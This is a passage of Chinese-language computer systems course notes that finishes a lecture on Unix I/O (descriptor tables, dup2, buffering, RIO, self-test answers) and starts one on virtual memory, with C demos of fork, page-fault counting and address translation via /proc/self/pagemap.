$ ./cpfile in.txt # 给定 infile
line1
line2
$ echo "from stdin" | ./cpfile # 没有参数：仍然复制标准输入
from stdin
$ ./cpfile nosuch
Open error: No such file or directorystrace 记录的系统调用与设计一致：openat(AT_FDCWD, "in.txt", O_RDONLY) = 3、dup2(3, 0) = 0、close(3) = 0，之后的 read(0, ...) 读到的就是 in.txt 的内容。注意 Open 失败时 csapp.c 的 unix_error 以 exit(0) 结束（18.3 节），退出状态为 0；如果希望失败时返回非零的退出状态，可以改用 open 自己检查。
第四部分 复习速查#
4.1 Unix I/O 函数#
表 8 Unix I/O 函数（18.3–18.7 节）
| 函数 | 要点 |
|---|---|
| open(name, flags, mode) | 返回最小的空闲描述符，出错 −1；flags：O_RDONLY、O_WRONLY、O_RDWR 三选一，可加 O_CREAT、O_TRUNC、O_APPEND；新文件权限 = mode & ~umask |
| close(fd) | 成功 0，出错 −1；关闭两次得到 EBADF；多线程中可能关掉别人的文件 |
| read(fd, buf, n) | 返回读到的字节数（ssize_t，有符号）；0 表示 EOF；−1 表示出错；可能少于 n |
| write(fd, buf, n) | 返回写出的字节数；−1 表示出错；写套接字、管道时可能少于 n |
| lseek(fd, off, whence) | 改变文件位置（保存在打开文件表项中） |
| stat(name, &st)、fstat(fd, &st) | 取元数据；S_ISREG、S_ISDIR 判断类型；S_IRUSR 等判断权限位 |
| dup2(old, new) | 把描述符表第 old 项复制到第 new 项；new 原来打开则先关闭；返回 new |
| dup(old) | 返回最小的空闲描述符，与 old 指向同一表项 |
| opendir、readdir、closedir | 读目录项；顺序由文件系统决定 |
4.2 三张表与共享规则#
表 9 三张表（18.6 节）
| 表 | 数量 | 内容与变化 |
|---|---|---|
| 描述符表 | 每进程一张 | 第 fd 项指向打开文件表项；fork 时复制，dup2 时改写 |
| 打开文件表 | 全系统一张 | 文件位置、访问方式、refcnt；每次 open 新建一项；refcnt 减到 0 时释放 |
| v-node 表 | 全系统一张 | 文件本身的信息（权限、大小、类型）；同一文件只有一项 |
判断“读到什么、写到哪里”时只问一句：这两个描述符指向的是不是同一个打开文件表项？是（fork 继承、dup、dup2 产生），就共享文件位置；不是（各自 open），就各有各的位置，即使是同一个文件。O_APPEND 的写入总是先移到当时的文件末尾。
4.3 标准 I/O 与 RIO#
表 10 缓冲与 RIO（18.9–18.11 节）
| 项目 | 要点 |
|---|---|
| 流 | FILE * = 描述符 + 缓冲区；stdin、stdout、stderr 对应描述符 0、1、2 |
| 缓冲方式 | stderr 不缓冲；stdout 连终端时行缓冲；连文件或管道时全缓冲（4096 字节） |
| 何时 write | 行缓冲遇换行；缓冲区满；fflush；exit 或从 main 返回（_exit 和崩溃会丢失缓冲区） |
| rio_readn、rio_writen | 不带缓冲；只在 EOF 时少读，从不少写；EINTR 时自动重试 |
| rio_readlineb、rio_readnb | 带缓冲（8192 字节）；先 rio_readinitb；readlineb 最多 maxlen − 1 字节并补 '\0' |
| 不能混用 | 带缓冲的 RIO 函数不能与 rio_readn 交替；标准 I/O 与 Unix I/O 混用时输出顺序可能错乱 |
| 选择 | 磁盘与终端用标准 I/O；信号处理程序中用 Unix I/O；网络用 RIO；二进制文件不用 fgets、strlen |
4.4 易错点#
表 11 本讲的易错点
| 容易错的说法 | 正确的理解 |
|---|---|
| 第一次 open 一定得到 3 | 得到的是最小的空闲描述符；标准输入被关闭时可能得到 0 |
| read 返回值小于 n 就是出错 | 不足值不是错误；只有 −1 才是出错，0 是 EOF |
| EOF 是文件末尾的一个特殊字符 | EOF 是“再也读不到字节”的状态，read 以返回 0 表示 |
| 两次 open 同一文件，读写互相影响位置 | 两个打开文件表项各有各的位置；只有 fork、dup、dup2 才共享位置 |
| dup2(a, b) 把 b 复制给 a | dup2(old, new)：new 成为 old 的副本 |
| 重定向在 shell 进程中做 | 在子进程中、execve 之前做；shell 自己的描述符不能改，也不能泄漏 |
| printf 遇到换行就会输出 | 只有行缓冲（stdout 连终端）时才如此；重定向到文件后要等缓冲区满或 fflush |
| statcheck 的 read: yes 表示我能读 | 它只检查所有者的读权限位；要用 access 判断当前进程能否读 |
| O_APPEND 只在打开时把位置移到末尾 | 每次写之前都移到当时的末尾 |
4.5 中英术语对照#
表 12 术语对照
| 英文 | 中文 | 说明 |
|---|---|---|
| file descriptor | 描述符 | open 返回的小整数，描述符表的下标 |
| current file position | 当前文件位置 | 下一次读写的偏移量，保存在打开文件表项中 |
| short count | 不足值 | read、write 传送的字节数少于要求 |
| EOF (end-of-file) | 文件结束 | read 返回 0 |
| metadata | 元数据 | stat 中的类型、权限、大小等 |
| open file table | 打开文件表 | 全系统一张 |
| v-node table | v-node 表 | 全系统一张，每文件一项 |
| I/O redirection | I/O 重定向 | dup2 改写描述符表 |
| stream | 流 | 标准 I/O 中的 FILE * |
| line-buffered / fully buffered | 行缓冲 / 全缓冲 | 决定何时 write |
| robust I/O (RIO) | 健壮 I/O | 教材的包装函数 |
第五部分 自测题#
每题先自己做，再看答案。
1．一个程序开始时关闭了描述符 0，然后依次 open 了两个文件。两次 open 分别返回什么？
2．read 的返回值有哪三类情况？读一个 10 字节的磁盘文件，每次请求 4 个字节，依次返回什么？
3．下面的程序运行后，f.txt 的内容是什么？
int fd = Open("f.txt", O_RDWR | O_CREAT | O_TRUNC, 0644);
Write(fd, "abc", 3);
if (Fork() == 0) {
Write(fd, "x", 1);
exit(0);
}
Wait(NULL);
Write(fd, "y", 1);
int fd2 = Open("f.txt", O_WRONLY, 0);
Write(fd2, "Z", 1);4．下面的程序分别在终端上运行和用 ./a.out > out.txt 运行，输出各是什么？
printf("a\n");
if (fork() == 0)
printf("b\n");
else {
wait(NULL);
printf("c\n");
}5．文件 hw.txt 的第一行是 hello world。用 rio_readinitb 初始化后，先调用 Rio_readlineb(&rio, buf, 5)，再调用 Rio_readlineb(&rio, buf, 64)，两次各返回几、buf 中是什么？
6．shell 执行 cmd < in.txt > out.txt 时，应当在哪个进程中、以什么顺序做哪些事？如果 in.txt 不存在，怎样处理比较好？
7．一个程序调用 dup2(1, 2) 之后执行 fprintf(stderr, "err\n")。用 ./a.out > out.txt 运行时，err 出现在哪里？
8．下面哪些函数可以在信号处理程序中安全地使用？(a) printf；(b) write；(c) fgets；(d) _exit；(e) malloc。
9．为什么不应该对同一个描述符先用 rio_readlineb 读几行、再用 rio_readn 读剩下的内容？
10．用 O_APPEND 打开的描述符先写 3 个字节，然后另一个描述符（独立 open 的）把文件写长到 100 字节，这时再通过第一个描述符写，数据写在哪里？
自测题答案#
1．0 和 3。open 返回最小的空闲描述符：0 被关闭了，第一次 open 得到 0；1、2 被占用，第二次得到 3（18.3 节，作业 10.6）。
2．大于 0：读到的字节数；0：EOF；−1：出错（18.3 节）。10 字节的文件每次请求 4 字节，依次返回 4、4、2、0。第三次的 2 是因为遇到了 EOF 而出现的不足值。
3．Zbcxy（默认环境实测）。fd 在 fork 后被父子进程共享，文件位置也共享：abc 之后位置是 3，子进程写 x 到位置 3，父进程等子进程结束后写 y 到位置 4，文件为 abcxy。fd2 是独立 open 得到的新表项，位置从 0 开始，Z 覆盖了 a（18.6 节）。
4．终端上是 a、b、c 三行；重定向到文件后是 a、b、a、c 四行（默认环境实测）。在终端上 stdout 是行缓冲，"a\n" 在 fork 之前就已经写出；输出到文件时是全缓冲，fork 时 "a\n" 还在缓冲区中，被子进程复制了一份，子进程和父进程结束时各写出一次（18.9 节，第 16 讲 16.10 节）。
5．第一次返回 4，buf 为 "hell"：maxlen 为 5 时最多读 maxlen − 1 = 4 个字节，再补 '\0'。第二次返回 8，buf 为 "o world\n"：从上次停下的地方接着读到换行符（默认环境实测，18.10 节）。
6．在 fork 出的子进程中、execve 之前：open in.txt（O_RDONLY）得到描述符 a，dup2(a, 0)；open out.txt（O_WRONLY|O_CREAT|O_TRUNC，权限 0644）得到 b，dup2(b, 1)；close(a)、close(b)；然后 execve。两个文件也可以在 fork 之前由 shell 打开，这时 shell 在 fork 之后要关闭它们，参考程序 tshref 就是这样做的。in.txt 不存在时，在 shell 中打开就能直接报告错误、不必 fork；无论哪种做法，shell 自己都不能留下打开的描述符（18.12 节）。
7．出现在 out.txt 中。shell 先让描述符 1 指向 out.txt，dup2(1, 2) 又让描述符 2 指向同一个表项，stderr 写的是描述符 2（18.7 节）。这就是 shell 中 > out.txt 2>&1 的效果。
8．(b) 和 (d)。write 与 _exit 是异步信号安全的；printf、fgets 操作 stdio 的缓冲区，malloc 操作堆的全局数据结构，都不安全（18.11 节，第 17 讲 17.8 节）。
9．rio_readlineb 一次 read 会把最多 8192 个字节读进 rio_t 的缓冲区，返回给调用者的只是其中的一行。rio_readn 直接调用 read，从内核的文件位置开始读，跳过了已经在缓冲区中、还没被取走的那些字节（18.10 节，图 5）。
10．写在第 100 字节之后。O_APPEND 规定每次写之前都把位置移到当时的文件末尾，与这个描述符上次写到哪里无关（18.8 节 ffiles3）。
—— 第 18 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 19 讲
虚拟内存：概念（Virtual Memory: Concepts）
如何使用本讲义#
从第 4 讲开始，程序中的每个地址我们都把它当作“内存中的位置”。可是同一台机器上同时运行着许多进程，它们的代码都从差不多相同的地址开始，栈也都在 0x7ff… 附近，彼此却互不干扰。这一讲解释其中的原因：进程看到的地址是虚拟地址，每次访存时由硬件把它翻译成物理地址。这一层间接同时解决了三个问题，课件也按这三个角色组织：虚拟内存作为缓存的工具（19.2–19.4 节），把磁盘上的虚拟页缓存在 DRAM 中；作为内存管理的工具（19.5 节），让每个进程都有同样整齐的地址空间；作为内存保护的工具（19.6 节），在每次访存时检查权限。最后是硬件怎样完成地址翻译（19.7 节），以及为了让翻译又快又省空间而引入的 TLB（19.8 节）和多级页表（19.9 节）。19.10 节把教材的小内存系统整理成手算地址翻译的固定步骤，作业 9.11–9.13 和期末的大题都考这个。
这一讲与第 13 讲的高速缓存一一对应：页对应块，页表对应标记与有效位，缺页对应不命中，TLB 本身又是一个缓存。讲义在每个地方都指出对应关系和不同之处。程序的实际行为在默认环境上测过：malloc 之后什么时候才真正发生缺页，同一个虚拟地址在父子进程中对应的物理地址，写只读页时 MMU 报告什么，以及 TLB 装不下时访存会慢多少。
表 1 第 19 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 引入与地址空间（p.2–12） | 没有虚拟内存会怎样；物理寻址与虚拟寻址；三种地址空间 | 19.1 |
| 作为缓存工具（p.14–15） | 虚拟页的三种状态；DRAM 缓存为什么这样设计 | 19.2 |
| 页表、页命中与缺页（p.16–24） | PTE 的内容；页命中；缺页的处理过程；按需调页 | 19.3 |
| 分配新页与局部性（p.25–26） | 什么时候分配新页；工作集与抖动 | 19.4 |
| 作为内存管理工具（p.28–30） | 私有的地址空间；共享；简化链接与加载 | 19.5 |
| 作为内存保护工具（p.32） | PTE 中的权限位；MMU 的检查 | 19.6 |
| 地址翻译（p.34–39） | 符号；用页表翻译；页命中与缺页的步骤；与缓存的结合 | 19.7 |
| TLB（p.40–44） | 为什么要 TLB；TLB 的组织；命中与不命中 | 19.8 |
| 多级页表（p.45–47） | 一级页表有多大；二级与 k 级页表 | 19.9 |
| 专题：手算地址翻译 | 教材 9.6.4 节的小内存系统；固定的步骤 | 19.10 |
| 小结（p.48） | 程序员与系统两个视角 | 19.11 |
第一部分 知识点#
19.1 为什么需要虚拟内存（课件 p.2–12）#
到目前为止，我们一直把内存想象成一个很大的字节数组，地址就是数组的下标，指针变量中存放的就是这样一个下标（课件 p.4–5）。课件 p.2 的图提出了一个问题：同一台机器上同时运行着 n 个进程，它们都按这种方式使用内存，怎么可能互不冲突？课件 p.6 把它拆成三个具体的问题。
放得下吗？32 位地址可以表示约 40 亿个字节（4 GB），64 位地址可以表示约 1.6 × 1019 个字节（16 EB）。每个进程都“以为”自己有这么大的空间，而真实的内存只有几 GB 到几百 GB，所有进程加起来更放不下。
用哪一块？每个程序都要决定把代码、数据、栈放在内存的哪里。如果直接使用物理内存，程序在编译、链接时就必须知道哪些内存是空的，而这取决于此刻还有哪些程序在运行；fork 出来的子进程又该放在哪里？
会不会被别人改？如果一个进程可以往任意地址写，它就可能改坏另一个进程的数据，甚至改坏操作系统内核；出了问题也很难调试，因为错误可能来自另一个毫不相干的程序。
课件 p.7–8 给出的解决办法是“加一层间接”：每个进程都得到一个私有的、完整大小的地址空间，程序中的地址都在这个空间里；处理器每执行一次读或写，都通过一个映射函数把这个私有地址翻译成物理内存中的地址。这一层映射就是虚拟内存（virtual memory，VM）的核心。
物理寻址与虚拟寻址#
不用虚拟内存的系统采用物理寻址（课件 p.9）：CPU 直接把物理地址（physical address，PA）送到内存总线上，内存按这个地址取出数据。汽车、电梯、数码相框中的简单嵌入式微控制器就是这样工作的。现代的服务器、笔记本电脑和手机都采用虚拟寻址（课件 p.10）：CPU 生成的是虚拟地址（virtual address，VA），它先被送到 CPU 芯片上的内存管理单元（memory management unit，MMU），MMU 查找内存中由操作系统维护的映射表，把它翻译成物理地址，再送到内存。课件 p.10 的例子中（图 1），CPU 访问虚拟地址 4100，MMU 把它翻译成物理地址 4。
图 1 物理寻址与虚拟寻址（课件 p.9–10）：虚拟寻址时 CPU 发出的地址先经 MMU 翻译
三种地址空间#
地址空间是一个非负整数地址的有序集合（课件 p.11）。地址是连续的整数 {0, 1, 2, …} 时，称为线性地址空间；本课程讨论的地址空间都是线性的。有 n 位地址的系统中，虚拟地址空间是 N = 2n 个虚拟地址的集合 {0, 1, …, N − 1}；物理内存有 M 个字节时，物理地址空间是 {0, 1, …, M − 1}，课件中设 M = 2m。
区分这两个空间之后，数据（字节）与它的属性（地址）就分开了：同一个字节可以有多个地址。主存中的每个字节都有一个物理地址，以及一个或多个虚拟地址，比如同一份共享库代码，在不同进程中可以有不同的虚拟地址（19.5 节）。
在默认环境上可以直接看到“同一个虚拟地址、不同的数据”。下面的程序 fork 之后，子进程把全局变量 g 改成 100，父子进程各自打印 g 的地址和值：
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
int g = 1; /* .data */
int main(void)
{
if (fork() == 0) {
g = 100;
printf("child : &g = %p, g = %d\n", (void *)&g, g);
exit(0);
}
wait(NULL);
printf("parent: &g = %p, g = %d\n", (void *)&g, g);
return 0;
}在默认环境上运行，输出如下：
child : &g = 0x55647478d010, g = 100
parent: &g = 0x55647478d010, g = 1两个进程中 &g 完全相同，值却不同，说明这个地址不是物理内存中的某个固定位置，而是各自地址空间中的位置。用 Linux 的 /proc/self/pagemap 查看它对应的物理地址（19.3 节）可以证实：子进程写 g 之前，两个进程的这个虚拟地址都映射到物理地址 0x13ebfc010；子进程写了之后，它的 &g 映射到了另一个物理页 0x122b30010，父进程的仍是 0x13ebfc010。fork 之后先共享、写的时候再复制，这叫写时复制，是下一讲的内容。
虚拟内存因此有三个作用（课件 p.12）：把 DRAM 当作虚拟地址空间的缓存，高效地使用主存；给每个进程同样的线性地址空间，简化内存管理；隔离各进程的地址空间，使一个进程不能干扰另一个，用户程序也不能访问内核的代码和数据。下面三节依次讨论。
常见问题：虚拟地址空间的大小 N 和物理地址空间的大小 M，哪个大？
两者是独立设计的，没有必然的大小关系，常见的情形是 N > M。N = 2n 由指令集和页表结构决定：x86-64 的指针有 64 位，但四级页表只翻译 48 位，所以 n = 48；五级页表时 n = 57。M = 2m 由处理器能输出的物理地址位数决定，m 受限于 PTE 中物理页号字段的宽度和内存控制器的设计，目前常见的是 39 到 52 位。默认环境上 grep "address sizes" /proc/cpuinfo 输出“52 bits physical, 57 bits virtual”，即 m = 52、n = 57；19.10 节的小内存系统中 n = 14、m = 12。注意 M 是处理器“能寻址”的物理内存上限，不是实际装的内存：默认环境的 m = 52 对应 4 PB，而 free -h 显示这台机器的内存只有 7.8 GB。
为什么 N 通常更大？虚拟地址空间是给每个进程用的“地图”，代价只是页表中多几级，大了可以把代码、堆、共享库、栈放得很开，中间留出大片空隙供堆和栈增长，还可以让一个进程映射比物理内存更多的数据（按需调页）；物理地址每多一位，地址线、页表项、高速缓存的标记都要变宽，而且装不了那么多内存，没有必要做大。
反过来 M > N 也出现过。32 位 x86 的虚拟地址只有 32 位（4 GB），后来内存超过 4 GB，处理器加入了 PAE（物理地址扩展），物理地址扩到 36 位（64 GB）：每个进程仍然只能看到 4 GB，但操作系统可以把不同进程映射到不同的物理内存，整台机器用得上 64 GB。这正说明虚拟地址和物理地址是两个独立的空间，中间由页表连接。
常见问题：怎样查看自己电脑的虚拟内存有多大？
“虚拟内存有多大”在不同场合指不同的东西。第一种是本讲说的虚拟地址空间，由虚拟地址的位数 n 决定，查法见上一个常见问题。Linux 内核默认只给用户程序 47 位，即 128 TB 的用户地址空间，高一半留给内核；五级页表的机器上，程序要明确请求才能用到更高的地址。
第二种是日常所说的“虚拟内存设置”，例如 Windows 中“系统属性 → 高级 → 性能设置 → 高级 → 虚拟内存”，它指的是交换空间（swap，Windows 叫页面文件）的大小，即磁盘上用来存放被换出的页的空间，相当于 19.3 节中“未缓存”的页在磁盘上的位置。Linux 上用 free -h 或 swapon --show 查看，macOS 上用 sysctl vm.swapusage。默认环境的 free 输出中 Swap 一行为 0B：这台机器没有配置交换空间，物理内存不够时，程序自己的数据页无处可换。
第三种是某个进程用了多少虚拟内存。ps -o pid,vsz,rss,comm 中的 VSZ 是它已分配的虚拟内存，RSS 是实际驻留在物理内存中的部分（单位都是 KB），/proc/<pid>/status 中对应 VmSize 和 VmRSS。两者的区别见 19.3 节的常见问题。
19.2 虚拟内存作为缓存的工具（课件 p.14–15）#
从概念上说，虚拟内存是存放在磁盘上的一个由 N 个连续字节组成的数组，其中一部分被缓存在物理内存（DRAM）中（课件 p.14）。缓存的单位叫页（page），大小为 P = 2p 个字节：虚拟地址空间被划分成虚拟页（virtual page，VP），物理内存被划分成同样大小的物理页（physical page，PP，也叫页帧）。在任意时刻，每个虚拟页处于三种状态之一：
- 未分配（unallocated）：VM 系统还没有分配（创建）这一页，它不占任何空间，磁盘上也没有；
- 已缓存（cached）：已分配，并且当前在物理内存中；
- 未缓存（uncached）：已分配，但不在物理内存中，只在磁盘上。
图 2 画出了这三种状态。已缓存的虚拟页可以放在任何一个物理页中，物理页之间不必按虚拟页的顺序排列；未缓存的页只在磁盘上有一份；未分配的页什么空间也不占。
图 2 虚拟页的三种状态（课件 p.14）：已缓存的页放在 DRAM 中任意一个物理页里
这个“DRAM 缓存”的设计完全由一个数字决定：不命中的代价极大（课件 p.15）。DRAM 比 SRAM 慢约 10 倍，磁盘却比 DRAM 慢约 10 000 倍，从磁盘读一页要 1 毫秒以上，相当于上百万个时钟周期。由此得出四个设计选择，表 2 把它们与第 13 讲的 SRAM 高速缓存对照。
表 2 DRAM 缓存（虚拟内存）与 SRAM 高速缓存的对照
| 方面 | 虚拟内存（DRAM 缓存） | 高速缓存（SRAM） |
|---|---|---|
| 缓存的单位 | 页，通常 4 KB；Linux 的大页为 2 MB 到 1 GB | 块，通常 64 字节 |
| 相联度 | 全相联：任何虚拟页可以放在任何物理页中 | 直接映射或组相联 |
| 怎样查找 | 用页表（一个很大的映射表）查 | 用组索引和标记查 |
| 替换算法 | 复杂的算法，由操作系统软件实现 | 简单（如 LRU），由硬件实现 |
| 写策略 | 写回 | 写回或直写 |
| 不命中的代价 | 约 106 个周期（从磁盘读） | 数十到数百个周期 |
每一项都是为了尽量减少不命中：大页能更好地利用空间局部性，一次从磁盘读一大块；全相联避免冲突不命中；复杂的替换算法值得用几千条指令来换取少一次不命中；写回避免频繁写磁盘。代价是映射函数很大，必须放在内存中，这就是下一节的页表。
19.3 页表、页命中与缺页（课件 p.16–24）#
页表#
页表（page table）是一个由页表条目（page table entry，PTE）组成的数组，把虚拟页映射到物理页（课件 p.16）。每个进程有一张页表，由操作系统维护，存放在 DRAM 中。虚拟地址空间中的每一页在页表中都有一个 PTE，按虚拟页号排列。在课件的简化模型中，每个 PTE 由一个有效位（valid bit）和一个地址字段组成：
- 有效位为 1：虚拟页已缓存在 DRAM 中，地址字段是它所在物理页的起始地址（物理页号）；
- 有效位为 0，地址字段为 null：这一页还没有分配；
- 有效位为 0，地址字段非空：这一页已分配但未缓存，地址字段是它在磁盘上的位置。
课件 p.16 的例子（图 3）中有 8 个虚拟页、4 个物理页：VP 1、VP 2、VP 7、VP 4 缓存在 DRAM 中，VP 3、VP 6 只在磁盘上，VP 0、VP 5 未分配。真实的 PTE 中还有权限位、修改位（dirty）、访问位等（19.6 节、下一讲）。
图 3 页表（课件 p.16–17）：8 个虚拟页、4 个物理页；红色箭头是访问 VP 2 时的页命中
页命中#
CPU 访问的虚拟地址所在的页已经在 DRAM 中，称为页命中（page hit，课件 p.17）。例如访问 VP 2 中的一个字（图 3 中的红色箭头）：MMU 用虚拟页号作为下标找到 PTE 2，有效位为 1，于是取出其中的物理页号，拼上页内偏移，得到物理地址，访问 DRAM。整个过程由硬件完成，程序不知道发生了翻译。
缺页#
访问的虚拟页不在 DRAM 中，称为缺页（page fault，课件 p.18），即 DRAM 缓存不命中。例如访问 VP 3：PTE 3 的有效位为 0，MMU 无法得到物理地址，于是触发一个缺页异常。这正是第 16 讲 16.4 节讲过的故障。课件 p.19 的例子是下面这个程序，a[500] = 13 编译成一条 movl 指令，目的地址 0x8049d10 就是 a[500] 的地址：
int a[1000];
main()
{
a[500] = 13;
}
80483b7: c7 05 10 9d 04 08 0d movl $0xd,0x8049d10执行这条 movl 时，a[500] 所在的页还在磁盘上：MMU 触发缺页异常，处理器进入内核模式，调用内核中的缺页处理程序。
缺页处理程序做三件事（课件 p.20–23，图 4）。第一，选择一个牺牲页，例子中是存放在 PP 3 中的 VP 4；如果 VP 4 被修改过，先把它写回磁盘。第二，修改 VP 4 的 PTE，有效位清零，表示它不再在内存中。第三，把 VP 3 从磁盘读入 PP 3，修改 PTE 3，有效位置 1、地址字段指向 PP 3。然后处理程序执行 iret 指令返回（课件 p.24）。iret 与 ret 相似，但还会恢复特权级，回到用户模式。故障的处理程序返回到引起故障的那条指令，所以 movl 被重新执行；这一次 PTE 3 有效，页命中，访问正常完成。
图 4 缺页的处理（课件 p.18–23）：（a）处理前；（b）处理后，黄色为被修改的 PTE
等到真正发生不命中时才把页从磁盘读进来，这种策略叫按需调页（demand paging，课件 p.23）。所有现代系统都采用这种做法。
在默认环境上观察缺页#
按需调页可以直接观察。下面的程序 malloc 64 MB（16 384 页），然后逐页各写一个字节，写两遍，用 getrusage 读取进程的缺页次数（ru_minflt）：
#include <stdio.h>
#include <stdlib.h>
#include <sys/resource.h>
static long minflt(void)
{
struct rusage ru;
getrusage(RUSAGE_SELF, &ru);
return ru.ru_minflt;
}
int main(void)
{
const size_t N = 64UL << 20; /* 64 MB = 16384 页 */
long f0 = minflt();
char *p = malloc(N);
long f1 = minflt();
for (size_t i = 0; i < N; i += 4096) p[i] = 1; /* 每页写一个字节 */
long f2 = minflt();
for (size_t i = 0; i < N; i += 4096) p[i] = 2; /* 再写一遍 */
long f3 = minflt();
printf("malloc 64 MB 之后 缺页 %ld 次\n", f1 - f0);
printf("第一遍逐页写 缺页 %ld 次\n", f2 - f1);
printf("第二遍逐页写 缺页 %ld 次\n", f3 - f2);
return 0;
}在默认环境上运行，输出如下：
malloc 64 MB 之后 缺页 3 次
第一遍逐页写 缺页 16383 次
第二遍逐页写 缺页 0 次malloc 本身几乎不产生缺页：它只是让内核在地址空间中分配了一段虚拟页，并没有给它们物理页。第一遍写时，每一页第一次被访问都触发一次缺页，内核这时才分配一个物理页并清零，所以缺页次数约等于页数（malloc 时有 1 页已经被访问过，用来存放 malloc 的管理信息）。第二遍写时所有页都已在内存中，一次缺页也没有。这里的缺页都是 minor fault：页不需要从磁盘读，只需要分配一个清零的物理页；需要读磁盘的叫 major fault。
常见问题：ps 显示的 VSZ（虚拟内存）为什么比 RSS（物理内存）大那么多？
这正是按需调页的结果。下面的程序 malloc 1 GB，只写其中前 100 MB，在三个时刻读 /proc/self/status。默认环境上（gcc -O0 编译），开始时 VmSize 为 2708 kB、VmRSS 为 1548 kB；malloc 之后 VmSize 变成 1051288 kB，多了 1 GB，VmRSS 只有 1552 kB，几乎没变；写了 100 MB 之后 VmRSS 变成 103952 kB，正好多了 100 MB。VmSize 统计已分配的虚拟页，VmRSS 只统计真正调入了物理页的那部分。
所以在任务管理器或 ps 中看到某个程序（例如浏览器）的虚拟内存有几十 GB、甚至比整台机器的内存还大，是完全正常的；判断它占了多少内存要看 RSS。另外，几个进程共享的库页面会在每个进程的 RSS 中各算一次（19.5 节），所以把所有进程的 RSS 加起来，可能超过实际用掉的物理内存。
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
static void show(const char *when) /* 打印 /proc/self/status 中的两行 */
{
char line[128];
FILE *f = fopen("/proc/self/status", "r");
printf("%s：", when);
while (fgets(line, sizeof line, f))
if (!strncmp(line, "VmSize", 6) || !strncmp(line, "VmRSS", 5)) {
line[strcspn(line, "\n")] = 0;
printf(" %s", line);
}
printf("\n");
fclose(f);
}
int main(void)
{
show("开始");
char *p = malloc(1UL << 30); /* 1 GB */
show("malloc 1 GB 之后");
memset(p, 1, 100UL << 20); /* 只写前 100 MB */
show("写了其中 100 MB 之后");
return 0;
}Linux 的 /proc/self/pagemap 文件为每个虚拟页提供一个 8 字节的项：第 63 位表示这一页是否在内存中，第 0–54 位是物理页号（需要 root 权限才能读到物理页号）。用 pread 读出第 VPN 项，就能把虚拟地址翻译成物理地址。本讲中所有的物理地址都是用下面的 v2p 函数查出来的（头文件从略）：
static uint64_t v2p(void *va)
{
uint64_t e, vpn = (uintptr_t)va >> 12;
int fd = open("/proc/self/pagemap", O_RDONLY);
pread(fd, &e, 8, vpn * 8); /* 每个虚拟页一个 8 字节的项 */
close(fd);
if (!(e >> 63)) return 0; /* 第 63 位：页在内存中 */
return ((e & ((1ULL << 55) - 1)) << 12) /* 第 0–54 位：物理页号 */
| ((uintptr_t)va & 0xfff); /* 拼上页内偏移 */
}
int g = 7;
int main(void)
{
uintptr_t va = (uintptr_t)&g;
printf("VA = %#lx VPN = %#lx VPO = %#lx\n", va, va >> 12, va & 0xfff);
printf("PA = %#lx PPN = %#lx PPO = %#lx\n",
v2p(&g), v2p(&g) >> 12, v2p(&g) & 0xfff);
fflush(stdout);
if (fork() == 0) {
printf("子进程写之前 PA = %#lx\n", v2p(&g));
g = 8;
printf("子进程写之后 PA = %#lx\n", v2p(&g));
exit(0);
}
wait(NULL);
printf("父进程 PA = %#lx\n", v2p(&g));
char *big = malloc(1 << 20);
printf("malloc 后未访问的页 PA = %#lx\n", v2p(big + 8192)); /* 0：不在内存 */
big[8192] = 1;
printf("写一次之后 PA = %#lx\n", v2p(big + 8192));
return 0;
}它还能看出某个虚拟页此刻有没有物理页：malloc 之后还没有访问过的页查不到物理地址（v2p 返回 0），写一次之后就有了（如 0x13ebff2b0）。19.1 节 fork 之后 g 的物理地址先相同、子进程写后不同，也是这个程序的输出。
19.4 分配新页与局部性（课件 p.25–26）#
课件 p.25 演示分配一个新的虚拟页 VP 5（图 5）：操作系统在磁盘上为它分配空间，并更新 PTE 5，使它指向磁盘上的这个位置；此时 VP 5 是“已分配、未缓存”的状态。之后第一次访问它时发生缺页，才被调入内存。对照 p.16，VP 5 原来是未分配的（PTE 为 null）。
图 5 分配一个新的虚拟页 VP 5（课件 p.25）：PTE 5 由 null 改为指向磁盘上的位置，有效位仍为 0
研讨题 1（8）问什么时候会分配新页。凡是让地址空间“变大”的操作都会：malloc 申请大块内存（glibc 对 128 KB 以上的请求直接调用 mmap），或者堆通过 brk 向上增长；函数调用使栈向下增长到新的页；execve 加载一个程序时，为代码段、数据段分配虚拟页（19.5 节）；mmap 映射一个文件或一段匿名内存；fork 创建新进程时为子进程建立地址空间。上面的实验说明，分配只是建立映射关系，物理页要到第一次访问时才真正给出。
虚拟内存看起来效率很低：不命中的代价是上百万个周期。它之所以可行，靠的仍然是局部性（课件 p.26）。在任何时刻，程序往往只集中访问一小部分活动的页，称为工作集（working set），时间局部性越好的程序工作集越小。只要工作集小于物理内存，除了开始时的冷不命中之外，几乎所有访问都会命中，性能很好；如果工作集超过了物理内存，就会出现抖动（thrashing）：页面被不断地换出、换入，性能急剧下降。多个进程同时运行时，只要它们的工作集总和超过物理内存，就会发生抖动。
研讨题 1（9）把虚拟内存与高速缓存做比较。两者都依靠时间局部性和空间局部性：时间局部性使工作集能留在 DRAM 中，空间局部性使一次调入的 4 KB 被充分利用。命中与不命中的概念也相同。不命中同样可以分成三类：第一次访问一页时的冷不命中（上面实验中的 16 383 次）；工作集超过物理内存时的容量不命中（抖动）；至于冲突不命中，由于 DRAM 缓存是全相联的，任何虚拟页都可以放进任何物理页，所以不存在。不同之处见 表 2，最主要的是不命中由软件（缺页处理程序）处理，而高速缓存的不命中完全由硬件处理。
19.5 虚拟内存作为内存管理的工具（课件 p.28–30）#
虚拟内存的关键思想是：每个进程都有自己独立的虚拟地址空间（课件 p.28），也就是有自己的一张页表。进程可以把内存看成一个简单的线性数组，映射函数则把它的各个页分散到物理内存的各处。课件 p.28–29 的图中（图 6），进程 1 的 VP 1、VP 2 映射到 PP 2 和 PP 6，进程 2 的 VP 1、VP 2 映射到 PP 6 和 PP 8。这带来三个好处。
图 6 每个进程有自己的虚拟地址空间（课件 p.29）：两个进程的虚拟页可以映射到同一个物理页
第一个好处是简化内存分配。任何虚拟页都可以映射到任何物理页，同一个虚拟页在不同时刻也可以放在不同的物理页中。操作系统需要给进程分配 k 个连续的虚拟页时，只要找 k 个空闲的物理页即可，它们不必连续。
第二个好处是共享代码和数据。把不同进程的虚拟页映射到同一个物理页就实现了共享（课件 p.29 中两个进程共用 PP 6，比如只读的库代码）。默认环境上连续运行三次同一个程序，每次打印 printf 函数的虚拟地址和物理地址：
int main(void)
{
